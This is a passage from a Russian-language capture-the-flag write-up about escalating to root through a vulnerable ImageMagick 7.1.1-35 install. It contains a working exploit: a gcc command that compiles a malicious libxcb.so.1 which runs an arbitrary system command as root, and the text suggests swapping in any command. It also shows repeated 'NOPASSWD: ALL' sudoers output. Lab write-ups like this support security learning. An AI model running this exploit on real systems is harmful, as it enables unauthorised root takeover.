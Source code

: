 ```console
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL

```

да уж...

Но есть и нормальный способ. Вам надо отправиться в 

/opt/scripts

найти там identify_images.sh и прочитать. Поняли, да? ну если пока не успели, то смотрите на файл /usr/bin/magick. делаем

```console
magick -version
```

Смотрим уязвимости по _ImageMagick 7.1.1-35_ и сразу же находим ссылку [https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)
Она нам и нужна. Пробуем эксплойт

```console
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt /tmp");
    exit(0);
}
EOF
```

Ну или подставляем вместо _cp /root/root.txt /tmp_ то, что нравится вам --> забираем root.txt



![[всё.jpeg]]